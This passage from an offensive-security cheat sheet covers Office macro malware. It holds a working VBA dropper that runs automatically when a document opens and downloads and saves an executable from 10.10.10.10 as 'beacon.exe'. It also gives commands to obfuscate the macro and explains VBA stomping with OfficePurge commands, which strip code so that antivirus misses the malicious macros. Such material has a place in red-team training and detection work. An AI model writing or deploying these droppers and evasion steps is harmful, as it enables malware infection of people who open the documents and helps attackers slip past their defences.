 ```ps1
Private Declare PtrSafe Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" (ByVal pCaller As Long, ByVal szURL As String, ByVal szFileName As String, ByVal dwReserved As Long, ByVal lpfnCB As Long) As Long

Public Function DownloadFileA(ByVal URL As String, ByVal DownloadPath As String) As Boolean
    On Error GoTo Failed
    DownloadFileA = False
    'As directory must exist, this is a check
    If CreateObject("Scripting.FileSystemObject").FolderExists(CreateObject("Scripting.FileSystemObject").GetParentFolderName(DownloadPath)) = False Then Exit Function
    Dim returnValue As Long
    returnValue = URLDownloadToFile(0, URL, DownloadPath, 0, 0)
    'If return value is 0 and the file exist, then it is considered as downloaded correctly
    DownloadFileA = (returnValue = 0) And (Len(Dir(DownloadPath)) > 0)
    Exit Function

Failed:
End Function

Sub AutoOpen()
    DownloadFileA "http://10.10.10.10/macro.exe", "C:\\Users\\Public\\beacon.exe"
End Sub


Sub Auto_Open()
    DownloadFileA "http://10.10.10.10/macro.exe", "C:\\Users\\Public\\beacon.exe"
End Sub
```

## VBA Obfuscation

```ps1
# https://www.youtube.com/watch?v=L0DlPOLx2k0
$ git clone https://github.com/bonnetn/vba-obfuscator
$ cat example_macro/download_payload.vba | docker run -i --rm bonnetn/vba-obfuscator /dev/stdin
```

## VBA Purging

**VBA Stomping**: This technique allows attackers to remove compressed VBA code from Office documents and still execute malicious macros without many of the VBA keywords that AV engines had come to rely on for detection. == Removes P-code. 

:warning: VBA stomping is not effective against Excel 97-2003 Workbook (.xls) format.

### OfficePurge
* https://github.com/fireeye/OfficePurge/releases/download/v1.0/OfficePurge.exe

```powershell
OfficePurge.exe -d word -f .\malicious.doc -m NewMacros
OfficePurge.exe -d excel -f .\payroll.xls -m Module1
OfficePurge.exe -d publisher -f .\donuts.pub -m ThisDocument
OfficePurge.exe -d word -f .\malicious.doc -l
```
